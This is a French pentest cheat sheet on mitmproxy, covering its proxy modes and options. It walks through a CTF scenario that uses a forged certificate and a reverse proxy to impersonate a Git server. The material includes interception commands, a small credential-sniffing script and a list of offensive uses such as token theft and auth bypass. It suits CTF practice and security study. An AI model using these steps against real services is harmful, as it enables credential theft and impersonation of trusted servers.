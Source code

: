```yaml
---
cover: >-
  https://upload.wikimedia.org/wikipedia/commons/thumb/f/f9/Mitmproxy_logo.svg/1280px-Mitmproxy_logo.svg.png
coverY: 0
---
```


# MITPROXY

***

### <mark style="color:red;">🧩 Qu’est-ce que mitmproxy ?</mark>

* **mitmproxy** est un proxy interactif en Python.
* Permet :
  * Interception & modification des requêtes/réponses HTTP(S).
  * Proxy inverse (_reverse proxy_) pour se placer devant une appli (utile avec un certificat forgé).
  * Analyse et sauvegarde de trafic (ex: pour rejouer ou analyser offline).
  * Scripts d’automatisation en Python.

***

### <mark style="color:red;">🔐 Modes principaux</mark>

#### <mark style="color:blue;">1. Proxy classique (interception navigateur/app)</mark>

```bash
mitmproxy -p 8080
```

➡️ Configure ton navigateur/app à utiliser `127.0.0.1:8080` comme proxy.

#### <mark style="color:blue;">2. Transparent proxy (redirection réseau via iptables)</mark>

```bash
mitmproxy --mode transparent -p 8080
```

➡️ Tout le trafic est capturé, même sans configuration proxy côté client.

#### <mark style="color:blue;">3. Reverse proxy (ton cas dans le CTF)</mark>

```bash
mitmproxy --mode reverse:https://git.sorcery.htb \
          --certs match.sorcery.htb.pem \
          --save-stream-file traffic.raw \
          -k -p 443
```

➡️ Fonctionne comme un **reverse proxy TLS** :

* `match.sorcery.htb.pem` est ton **certificat frauduleux signé par la CA compromise**.
* Tu interposes ton proxy sur `443` pour que la victime pense parler à `git.sorcery.htb`.

***

### <mark style="color:red;">🛠 Options importantes</mark>

* `--mode reverse:<URL>` : proxy inverse vers la vraie cible.
* `--certs <domain.pem>` : charger un certificat personnalisé.
* `--save-stream-file traffic.raw` : sauvegarde brute du trafic intercepté.
* `-k` : ignorer la vérification de certificat côté client.
* `-p <port>` : port d’écoute du proxy.
* `-s <script.py>` : lancer un script Python d’automatisation.

***

### <mark style="color:red;">📂 Utilisation typique en pentest</mark>

#### <mark style="color:blue;">1. Interception HTTPS classique</mark>

* Installer le **certificat mitmproxy** côté client.
*   Lancer :

    ```bash
    mitmproxy -p 8080
    ```
* Observer requêtes/réponses en direct (`mitmweb` pour interface web).

***

#### <mark style="color:blue;">2. MITM avec certificat volé / forgé</mark>

Exemple CTF :

1. Tu compromises une CA → tu signes `match.sorcery.htb.pem`.
2.  Tu lances un reverse proxy :

    ```bash
    mitmproxy --mode reverse:https://git.sorcery.htb \
              --certs match.sorcery.htb.pem \
              -p 443
    ```
3. Les clients font confiance car ton certificat est valide.
4. Tu interceptes et peux **voler des tokens JWT, cookies, credentials Git**.

***

#### <mark style="color:blue;">3. Automatisation avec script Python</mark>

Exemple `inject.py` :

```python
from mitmproxy import http

def response(flow: http.HTTPFlow) -> None:
    if "password" in flow.response.text:
        print("[+] Password found:", flow.response.text)
```

Lancer avec :

```bash
mitmproxy -s inject.py -p 8080
```

***

### <mark style="color:red;">🔎 Cas d’usage offensifs en CTF/Pentest</mark>

* **Intercept Git over HTTPS** : dump credentials Basic Auth ou tokens OAuth.
* **Modifier des réponses API** pour contourner restrictions (auth bypass).
* **Injecter payloads XSS/SQLi** dans des requêtes envoyées par le client.
* **Rejouer un trafic sensible** avec `mitmdump -nr traffic.raw`.

***
